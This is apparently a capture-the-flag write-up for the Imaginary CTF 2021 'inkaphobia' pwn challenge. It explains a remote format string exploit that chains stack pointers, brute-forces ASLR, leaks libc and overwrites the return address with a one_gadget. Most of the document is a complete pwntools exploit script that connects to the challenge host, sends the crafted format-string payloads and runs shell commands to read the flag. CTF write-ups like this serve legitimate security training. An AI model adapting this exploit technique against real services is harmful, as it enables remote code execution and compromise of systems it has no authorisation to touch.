 Inkaphobia was a challenge from Imaginary CTF 2021

it is basically a format string vulnerability to exploit remotely

the strategy to exploit was to use a stack pointer (reachable with the format string offsets)

that points to another stack pointer.

with this pointer the next stack pointer, to point on '_libc_ret_main_' return address

we use this new pointer, to write a one gadget instead of the return address..

I did it in 3 pass...

one pass to bruteforce the ASLR, to have an ASLR favorable to us.. (no bad moon rising)

when we have a good ASLR we use %*c to read 32bit low on stack address, and write it to the target pointers..

then dump a libc address , and write onto ret address using pwntools format string functions..

see in in action...

![](https://github.com/nobodyisnobody/write-ups/raw/main/Imaginary.CTF.2021/pwn/inkaphobia/pics/inkaphobia.gif)

```python
from pwn import *
import sys
context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = context.binary = ELF('./inkaphobia')
libc = ELF('./libc.so.6')

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]


for j in range(1000):
  if args.REMOTE:
    p = connect('chal.imaginaryctf.org', 42008)
  else:
    p = process('./inkaphobia')
  p.recvuntil('service!\n', drop=True)
  p.sendlineafter('value: ', '1\n1\n1\n1\n1\n1')		# pass rng
  payload = '%c'*71+'%p.'+'%c'*4+'%*c'+'%c'*12+'%65194c'+'%hn'+'%c'*11+'%6c'+'%hhnTOTO'
  p.sendlineafter('name?\n', payload)
  try:
    p.readuntil('0x', drop=True)
    leak = int(p.readuntil('.', drop=True),16) - 0x270b3
    if ((leak & 0xff000000)>>24) > 16:
      p.close()
      print(str(j))
      continue
    print('leak ='+hex(leak))
    sys.stdout.flush()
    p.recvuntil('TOTO', drop=True)
    print('TOTO OK..')
    p.sendlineafter('value: ', '1\n1\n1\n1\n1\n1')
    payload = '%153c%105$hhnAAAA%75$pBBBB%77$pCCCC'
    p.sendlineafter('name?\n', payload)
    p.readuntil('AAAA', drop=True)
    libc.address = int(p.readuntil('BBBB', drop=True),16) - 0x270b3
    print('libc.base ='+hex(libc.address))
    onegadgets = one_gadget('libc.so.6', libc.address)
    stack = int(p.readuntil('CCCC', drop=True),16)
    p.sendlineafter('value: ', '1\n1\n1\n1\n1\n1')
    p.sendlineafter('name?\n', fmtstr_payload(8, {stack - 0xf0: onegadgets[1]}))
    p.sendline('id;cat flag*')
    p.interactive()
    break
  except:
    print(str(j))
    p.close()

p.close()
```
